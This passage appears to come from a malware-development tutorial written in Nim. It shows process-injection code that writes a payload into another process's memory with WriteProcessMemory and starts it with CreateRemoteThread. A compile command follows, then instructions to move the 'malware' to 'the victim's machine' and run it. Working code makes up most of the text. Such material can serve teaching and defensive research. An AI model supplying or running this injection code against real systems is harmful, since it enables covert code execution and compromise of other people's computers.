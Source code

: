 ```nim
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload,
        cast[SIZE_T](payload.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```

### demo 1

Compile our malware:    

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```

![img](./img/2024-06-01_12-08.png)    

Then, just move it to the victim's machine (Windows 11 in my case) and run:    

```powershell
.\hack.exe
```
